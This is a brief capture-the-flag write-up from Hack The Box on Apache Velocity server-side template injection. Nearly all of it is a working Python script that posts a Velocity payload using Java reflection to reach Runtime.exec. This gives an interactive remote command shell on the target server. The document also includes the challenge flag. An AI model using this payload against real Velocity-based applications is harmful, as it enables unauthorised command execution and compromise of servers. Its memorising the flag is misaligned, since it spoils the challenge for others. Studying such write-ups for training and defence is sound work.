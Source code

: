 ```yaml
---
created: 2024-07-16T23:56
updated: 2024-07-16T23:57
---
```


## Analysis

```java
org.apache.velocity.Template t = new org.apache.velocity.Template();
```

Apparently the server passes our input into the velocity template directly.

However a lot of the online payloads doesn't work.

This is the final payload.

```python
import requests
import re
while True:
    payload = f"""
#set($x='')
#set($rt=$x.class.forName('java.lang.Runtime'))
#set($chr=$x.class.forName('java.lang.Character'))
#set($str=$x.class.forName('java.lang.String'))
#set($ex=$rt.getRuntime().exec('{input("$ ")}'))
$ex.waitFor()
#set($out=$ex.getInputStream().readAllBytes())
#foreach($i in $out)$str.valueOf($chr.toChars($i))#end
"""
    print(re.search('<h2 class="fire">([\s\S]+)</h2>', requests.post("http://94.237.51.8:40899/", data={"text": payload}).text).group(1))

# HTB{f13ry_t3mpl4t35_fr0m_th3_d3pth5!!_0e15f3d341a7529fb80ce21794b76383}
```
